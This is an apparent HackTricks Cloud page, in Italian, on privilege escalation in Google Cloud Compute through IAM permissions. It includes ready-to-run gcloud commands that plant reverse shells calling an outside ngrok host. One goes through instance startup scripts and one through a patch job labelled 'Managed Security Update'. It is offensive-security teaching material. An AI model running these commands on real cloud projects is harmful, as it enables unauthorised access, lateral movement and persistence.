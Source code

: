 # GCP - Compute Privesc

{% hint style="success" %}
Impara e pratica AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Impara e pratica GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
{% endhint %}

## Compute

Per maggiori informazioni su Compute e VPC (rete) in GCP controlla:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Nota che per eseguire tutti gli attacchi di escalation dei privilegi che richiedono di modificare i metadati dell'istanza (come aggiungere nuovi utenti e chiavi SSH) è **necessario avere permessi `actAs` sull'SA collegato all'istanza**, anche se l'SA è già collegato!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

Con quel permesso puoi **modificare** le informazioni di **metadata** di un'**istanza** e cambiare le **chiavi autorizzate di un utente**, o **creare** un **nuovo utente con permessi sudo**. Pertanto, sarai in grado di eseguire via SSH in qualsiasi istanza VM e rubare l'Account di Servizio GCP con cui l'istanza è in esecuzione.\
Limitazioni:

* Nota che gli Account di Servizio GCP in esecuzione nelle istanze VM per impostazione predefinita hanno un **ambito molto limitato**
* Dovrai essere **in grado di contattare il server SSH** per accedere

Per maggiori informazioni su come sfruttare questo permesso controlla:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

Potresti anche eseguire questo attacco aggiungendo un nuovo script di avvio e riavviando l'istanza:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

Questa autorizzazione conferisce **gli stessi privilegi della precedente autorizzazione** ma su istanze specifiche anziché su un intero progetto. **Si applicano gli stessi exploit e limitazioni della sezione precedente**.

### `compute.instances.setIamPolicy`

Questo tipo di autorizzazione ti permetterà di **concederti un ruolo con le autorizzazioni precedenti** e aumentare i privilegi abusandone.

### **`compute.instances.osLogin`**

Se **OSLogin è abilitato nell'istanza**, con questa autorizzazione puoi semplicemente eseguire **`gcloud compute ssh [INSTANCE]`** e connetterti all'istanza. **Non avrai privilegi di root** all'interno dell'istanza.

{% hint style="success" %}
Per accedere con successo con questa autorizzazione all'interno dell'istanza VM, è necessario avere l'autorizzazione `iam.serviceAccounts.actAs` sull'SA collegato alla VM.
{% endhint %}

### **`compute.instances.osAdminLogin`**

Se **OSLogin è abilitato nell'istanza**, con questa autorizzazione puoi semplicemente eseguire **`gcloud compute ssh [INSTANCE]`** e connetterti all'istanza. Avrai **privilegi di root** all'interno dell'istanza.

{% hint style="success" %}
Per accedere con successo con questa autorizzazione all'interno dell'istanza VM, è necessario avere l'autorizzazione `iam.serviceAccounts.actAs` sull'SA collegato alla VM.
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

È possibile **creare una macchina virtuale con un Service Account assegnato e rubare il token** del service account accedendo ai metadati per aumentare i privilegi.

Lo script di exploit per questo metodo può essere trovato [qui](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py).

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

Se hai le autorizzazioni **`osconfig.patchDeployments.create`** o **`osconfig.patchJobs.exec`** puoi creare un [**patch job o deployment**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching). Questo ti permetterà di muoverti lateralmente nell'ambiente e ottenere l'esecuzione di codice su tutte le istanze compute all'interno di un progetto.

Nota che al momento **non è necessaria l'autorizzazione `astAs`** sull'SA collegato all'istanza.

Se vuoi sfruttare manualmente questo, dovrai creare un [**patch job**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) **o** [**deployment**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json)**.**\
Per un patch job esegui:

{% code overflow="wrap" %}
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

Per distribuire una patch deployment:
```bash
gcloud compute os-config patch-deployments create <name> ...
```
Lo strumento [patchy](https://github.com/rek7/patchy) poteva essere utilizzato in passato per sfruttare questa configurazione errata (ma ora non funziona).

**Un attaccante potrebbe anche abusare di questo per persistenza.**

### `compute.machineImages.setIamPolicy`

**Concediti permessi extra** per compute Image.

### `compute.snapshots.setIamPolicy`

**Concediti permessi extra** per uno snapshot del disco.

### `compute.disks.setIamPolicy`

**Concediti permessi extra** per un disco.

### Bypassare Access Scopes

Seguendo questo link trovi alcune [**idee per provare a bypassare gli access scopes**](../).

### Escalation di Privilegi Locali in un'istanza GCP Compute

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## Riferimenti

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Impara e pratica AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Impara e pratica GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
{% endhint %}
